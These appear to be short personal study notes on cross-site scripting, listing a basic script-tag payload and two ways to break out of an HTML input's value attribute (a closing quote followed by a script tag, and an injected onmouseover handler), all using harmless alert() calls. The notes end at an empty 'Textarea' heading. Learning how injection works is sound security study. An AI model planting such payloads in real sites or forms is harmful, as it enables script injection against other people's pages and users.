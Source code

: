 ____

# Basic XSS

```html
<script>alert("1")</script>
```

![[Pasted image 20241120124025.png]]

# Escaping Context

## Input

```html
<input value="test">
```

```html
"><script>alert(1)</script>
```

![[Pasted image 20241120125055.png]]

```html
" onmouseover=alert(1);//
```

![[Pasted image 20241120125551.png]]

## Textarea

